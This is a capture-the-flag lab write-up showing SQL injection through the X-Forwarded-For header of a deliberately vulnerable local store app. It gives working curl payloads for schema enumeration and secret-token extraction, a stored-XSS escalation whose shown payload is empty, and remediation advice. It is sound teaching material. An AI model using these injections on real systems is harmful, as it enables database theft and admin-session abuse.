


OopsSec Store tracks visitor IPs on every page load using the `X-Forwarded-For` header. The value goes straight into a raw SQL query with no sanitization, so we can inject arbitrary SQL through a header that's entirely client-controlled.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 127.0.0.1:3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Target identification

The application silently tracks visitor IP addresses on every page load. This tracking:

- Runs automatically via a client-side component on all pages
- Sends visitor data to `/api/tracking`
- Stores the `X-Forwarded-For` header value as the visitor's IP
- Makes this data visible only to administrators at `/admin/analytics`

## Vulnerability analysis

### Silent IP tracking

The application tracks visitor IP addresses using the `X-Forwarded-For` header via a client-side component that loads on every page:

```typescript
// VisitorTracker component (loads on all pages)
useEffect(() => {
  fetch("/api/tracking", {
    method: "POST",
    body: JSON.stringify({ path: pathname }),
  });
}, [pathname]);
```

### Vulnerable tracking API

The tracking API uses raw SQL with the X-Forwarded-For header directly concatenated:

```typescript
// /api/tracking
const forwardedFor = request.headers.get("x-forwarded-for");
const ip = forwardedFor || request.headers.get("x-real-ip") || "unknown";

// VULNERABLE: Direct header value in SQL query
const query = `
  INSERT INTO visitor_logs (id, ip, userAgent, path, sessionId, createdAt)
  VALUES ('${id}', '${ip}', '${userAgent}', '${path}', ${sessionId}, datetime('now'))
`;

await prisma.$queryRawUnsafe(query);
```

The `ip` variable comes straight from the X-Forwarded-For header and lands in the SQL query with no sanitization.

## Exploitation

### Step 1: Find the oracle

An `INSERT` returns no rows, so the first question is how to read anything back. The tracking endpoint answers it for us: it replies with the rows the request just wrote.

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "Content-Type: application/json" \
  -d '{"path": "/"}'
```

```json
{
  "success": true,
  "logged": [
    {
      "id": "bd43ad6b-410d-4b34-815f-19cd026489c3",
      "ip": "::1",
      "userAgent": "curl/8.18.0",
      "path": "/",
      "sessionId": null,
      "createdAt": "2026-01-24T20:16:00.000Z"
    }
  ]
}
```

That echo is the whole game. A header that merely looks like SQL earns nothing — the flag drops only when a value read from a table the tracker never queries comes back inside `logged`.

### Step 2: Close the value list

The statement expects six values — `id`, `ip`, `userAgent`, `path`, `sessionId`, `createdAt` — and our header lands in the second one. So we finish the `ip` string, supply the four remaining values ourselves, close the parenthesis and comment out the rest:

```
1.2.3.4', (SELECT 1), '/x', NULL, datetime('now'))--
```

The server executes:

```sql
INSERT INTO visitor_logs (id, ip, userAgent, path, sessionId, createdAt)
VALUES ('…', '1.2.3.4', (SELECT 1), '/x', NULL, datetime('now'))--', 'curl/8.18.0', …)
```

The `userAgent` column now holds whatever sub-query we put in the second slot. When a payload does not compile, SQLite says so in the response, which makes this a comfortable place to iterate:

```json
{
  "success": false,
  "logged": [],
  "error": "Raw query failed. Code: `1`. Message: `near \"curl\": syntax error`"
}
```

The `ip` slot takes a literal too, by the other route: concatenating into the value instead of closing the list. It is the shortest proof the injection runs — visible afterwards at `/admin/analytics`:

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: '||(SELECT 'Privacy matters. Dont track your users')||'" \
  -H "Content-Type: application/json" \
  -d '{"path": "/exploit"}'
```



### Step 3: Enumerate the schema

SQLite keeps its own catalogue in `sqlite_master`. Read the table list through the column we control:

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: 1.2.3.4', (SELECT group_concat(name) FROM sqlite_master WHERE type='table'), '/x', NULL, datetime('now'))--" \
  -H "Content-Type: application/json" \
  -d '{"path": "/"}'
```

```json
"userAgent": "users,products,carts,cart_items,orders,order_items,addresses,flags,hints,revealed_hints,reviews,support_access_tokens,found_flags,project_init,visitor_logs,wishlists,wishlist_items,password_reset_tokens,supplier_orders,coupons,gift_cards,stream_config,sqlite_sequence,internal_secrets"
```

`flags` is a dead end: the endpoint answers `403` to any payload naming that table, and strips every `OSS{…}` value out of the echo. `internal_secrets` is the interesting one. Ask for its definition the same way:

```
1.2.3.4', (SELECT sql FROM sqlite_master WHERE name='internal_secrets'), '/x', NULL, datetime('now'))--
```

```sql
CREATE TABLE "internal_secrets" ("id" TEXT NOT NULL PRIMARY KEY, "slug" TEXT NOT NULL, "token" TEXT NOT NULL)
```

The schema names a `slug` column but says nothing about its values. Read those rather than guessing them:

```
1.2.3.4', (SELECT group_concat(slug) FROM internal_secrets), '/x', NULL, datetime('now'))--
```

```
product-search-sql-injection,second-order-sql-injection,sql-injection,x-forwarded-for-sql-injection
```

One row per injection challenge, each named after the challenge it belongs to.

### Step 4: Exfiltrate the canary

This endpoint only looks for its own token, so ask for the `x-forwarded-for-sql-injection` row:

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: 1.2.3.4', (SELECT token FROM internal_secrets WHERE slug='x-forwarded-for-sql-injection'), '/x', NULL, datetime('now'))--" \
  -H "Content-Type: application/json" \
  -d '{"path": "/"}'
```

```json
{
  "success": true,
  "logged": [
    {
      "ip": "1.2.3.4",
      "userAgent": "CANARY-X-FORWARDED-FOR-SQL-INJECTION-a42f4413d416",
      "path": "/x"
    }
  ],
  "flag": "OSS{x_f0rw4rd3d_f0r_sql1}",
  "message": "Internal secret exfiltrated through the X-Forwarded-For header! Well done!"
}
```

The token is generated at seed time, so it differs on every instance: the only way to produce it is to read it out of the database.

Unlike the `UNION` challenges, the `WHERE` matters here. This sink takes a scalar subquery, and a scalar subquery yields a single value: `(SELECT token FROM internal_secrets)` returns the first row only, which belongs to another challenge. Name the slug, or wrap the column in `group_concat` to bring every token back at once.

The flag is:

```
OSS{x_f0rw4rd3d_f0r_sql1}
```

## Vulnerable code analysis

Two things make this exploitable:

### 1. Trusting the X-Forwarded-For header

```typescript
const forwardedFor = request.headers.get("x-forwarded-for");
const ip = forwardedFor || "unknown";
// No validation - any string is accepted as IP
```

The `X-Forwarded-For` header is fully controllable by clients. It should only be trusted when:

- Set exclusively by a controlled reverse proxy
- The proxy strips existing headers before adding its own
- Direct client connections to the application server are blocked

### 2. Raw SQL with string concatenation

```typescript
const query = `INSERT INTO ... VALUES (..., '${ip}', ...)`;
await prisma.$queryRawUnsafe(query);
```

Passing user-controlled input to `$queryRawUnsafe` via string concatenation means any header value can escape the intended SQL string context.

## Bonus: Amplifying to Stored XSS

This vulnerability also opens the door to Stored XSS. The admin analytics page renders IP addresses with `dangerouslySetInnerHTML`, so injected HTML and JavaScript execute when an admin loads the page.

### XSS Payload

```bash
curl -X POST http://localhost:3000/api/tracking \
  -H "X-Forwarded-For: '||(SELECT '')||'" \
  -H "Content-Type: application/json" \
  -d '{"path": "/xss-exploit"}'
```

### Impact

1. The XSS payload is stored in the database as the "IP address"
2. Every time an admin visits `/admin/analytics`, the script executes
3. The attacker can:
   - Perform actions as admin (create users, modify products, etc.) by making fetch requests with `credentials: "include"`
   - Exfiltrate sensitive analytics data
   - Note: the JWT is stored in an `httpOnly` cookie, so it cannot be directly stolen via JavaScript, but the attacker can still make authenticated requests from the XSS context



Because the payload is stored in the database and rendered unsanitized, every admin who checks analytics will trigger the XSS.

## Remediation

### Use parameterized queries

Replace raw SQL with Prisma's query builder:

```typescript
await prisma.visitorLog.create({
  data: {
    ip,
    userAgent,
    path,
  },
});
```

### Validate IP addresses

Before storing, validate the IP format:

```typescript
const isValidIp = (ip: string): boolean => {
  const ipv4 = /^(\d{1,3}\.){3}\d{1,3}$/;
  const ipv6 = /^([0-9a-fA-F]{1,4}:){7}[0-9a-fA-F]{1,4}$/;
  return ipv4.test(ip) || ipv6.test(ip);
};

const rawIp = request.headers.get("x-forwarded-for")?.split(",")[0].trim();
const ip = rawIp && isValidIp(rawIp) ? rawIp : "unknown";
```

### Trust boundaries

Only trust `X-Forwarded-For` when:

- Set exclusively by a controlled reverse proxy
- The proxy strips existing headers before adding its own
- Network architecture prevents direct client connections
